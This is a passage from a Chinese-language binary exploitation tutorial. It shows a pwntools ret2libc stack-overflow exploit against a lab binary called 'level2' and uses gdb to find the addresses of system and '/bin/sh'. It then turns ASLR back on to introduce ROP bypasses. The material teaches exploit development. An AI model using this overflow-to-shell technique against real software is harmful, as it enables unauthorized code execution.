 ![Alt](img/x86_ROP8.png)

首先在main函数上下一个断点，然后执行程序，这样的话程序会加载`libc.so`到内存中，然后我们就可以通过`print system`这个命令来获取`system`函数在内存中的位置，随后我们可以通过`print __libc_start_main`这个命令来获取`libc.so`在内存中的起始位置，接下来我们可以通过`find`命令来查找`/bin/sh`这个字符串。这样我们就得到了`system`的地址`0xf7e3ada0`以及`/bin/sh`的地址`0xf7f5ba0b`。下面我们开始写exp：

```python
    #!/usr/bin/python
    from pwn import *

    p = process('./level2')

    ret = 0xdeadbeef
    system_addr = 0xf7e3ada0
    bin_addr = 0xf7f5ba0b

    payload = 'A'*140 + p32(system_addr) + p32(ret) + p32(bin_addr)

    p.send(payload)
    p.interactive()
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。

## ROP - Bypass DEP and ASLR 通过 ROP 绕过 DEP 和 ASLR 防护

```bash
    sudo -s
    echo 2 > /proc/sys/kernel/randomize_va_space
    exit
```

开启ASLR(Address space layout randomization)保护，再尝试exp2.py发现已经行不通了。通过`sudo cat /proc/[pid]/maps`或ldd查看，level2的libc.so地址每次都是变化的
